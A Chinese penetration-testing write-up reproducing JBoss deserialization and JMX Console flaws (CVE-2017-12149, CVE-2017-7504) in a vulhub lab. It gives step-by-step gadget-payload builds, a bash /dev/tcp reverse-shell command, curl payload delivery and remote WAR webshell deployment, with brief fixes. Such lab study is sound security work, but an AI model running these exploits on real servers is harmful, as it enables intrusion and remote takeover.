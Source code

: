 ```yaml
---
title: jboss常见漏洞复现
top: false
cover: http://image.xpshuai.cn/jboss_500.png
categories:
- 渗透测试
tags:
- JBoss
- 渗透测试
- 中间件漏洞
- 未授权访问
abbrlink: 60637
date: 2020-05-26 15:57:44
keywords:
summary:
img:
password:
---
```


### JBoss 5.x/6.x 反序列化漏洞( CVE-2017-12149 )
**验证：** 访问`/invoker/readonly`，如果返回 500 ,说明页面存在,此页面存在反序列化漏洞。
![](http://image.xpshuai.cn/jboss_500.png)

利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译

```bash
# 我们选择一个 Gadget : ReverseShellCommonsCollectionsHashMap ,编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

2.设置反弹的IP和端口：

```bash
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.0.105:8888 # ip 是 nc 所在的 ip 
# 这样就会将序列化对象保存在ReverseShellCommonsCollectionsHashMap.ser中，用curl命令发送到Jboss服务地址
```

3.本机进行监听
```bash
nv -lvvp 8888
```

4.再打开另一个控制台，运行如下curl命令
```bash
curl http://192.168.0.100:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

5.成功反弹shell




### JBoss JMXInvokerServlet 反序列化漏洞
**验证：**  访问 `/invoker/JMXInvokerServlet`，返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.xpshuai.cn/JBossEJBInvokerServlet1.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/JMXInvokerServlet`接口中。

也可以直接利用工具检测：[工具下载地址](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)
```bash
# 运行工具即可
java -jar DeserializeExploit.jar
```


### JBoss EJBInvokerServlet 反序列化漏洞
**验证：** 访问     /invoker/EJBInvokerServlet    返回如下,说明接口开放,此接口存在反序列化漏洞。
![](http://image.xpshuai.cn/JBossEJBInvokerServlet.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/EJBInvokerServlet` 接口中


### 修复建议
1. 不需要`ttp-invoker.sar`组件的用户可直接删除此组件
2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中,对 http invoker 组件进行访问控制:`<url-pattern>/*</url-pattern>`




### JBoss <=4.x JBossMQ JMS 反序列化漏洞( CVE-2017-7504 )
利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译
```bash
# 选择ExampleCommonsCollections1WithHashMap，编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java   #编译 
```

2.设置反弹的IP和端口：
```bash
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/192.168.0.105/1234 0>&1"       #ser全称serialize，序列化恶意数据至文件。
```

3.本机进行监听
```bash
nv -lvvp 1234
```

4.再打开另一个控制台，运行如下curl命令
```bash
#该ser文件作为请求数据主体发送如下数据包
curl http://192.168.0.100:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser  # --data-binary 意为以二进制的方式post数据
```

5.成功反弹shell



### JMX Console 未授权访问
###### 漏洞描述
未授权访问管理控制台,通过该漏洞,可以后台管理服务,可以通过脚本命令执行系统命令,如反弹shell,wget写webshell文件。

###### 环境搭建
使用vulhub
```bash
cd vulhub/jboss/CVE-2017-7504/
docker-compose up -d

# 浏览器访问
```



###### 复现
1.未授权访问测试（无无需认证进入入控制⻚页面面）
```
http://192.168.0.100:8080/
# 进入控制页 JMX Console
http://192.168.0.100:8080/jmx-console/ 
```
![](http://image.xpshuai.cn/jmx_console.png)

2.点击`jboss.deployment`进入应用部署页面
![](http://image.xpshuai.cn/jboss_deployment.png)

3.使用apache搭建远程木马服务器(这里在kali上搭建)

```bash
# war马的制作方式：https://www.peekeyes.com/2020/01/13/%E5%88%B6%E4%BD%9Cwar%E6%9C%A8%E9%A9%AC%E5%B9%B6%E4%B8%94%E6%8B%BF%E4%B8%8Bwebshell/
jar cvf shell.war shell.jsp
```

4.通过addurl参数进行木马的远程部署

```
地址写远程服务器war马的地址
```
![](http://image.xpshuai.cn/jboss_war.png)

成功部署
![](http://image.xpshuai.cn/jboss_war_ok.png)

5.连接木马

```
http://192.168.0.100:8080/shell/shell.jsp
```
![](http://image.xpshuai.cn/jboss_war_connect.png)




###### 防护
- 对jmx控制页面访问添加访问验证。
- 进行JMX Console 安全配置。




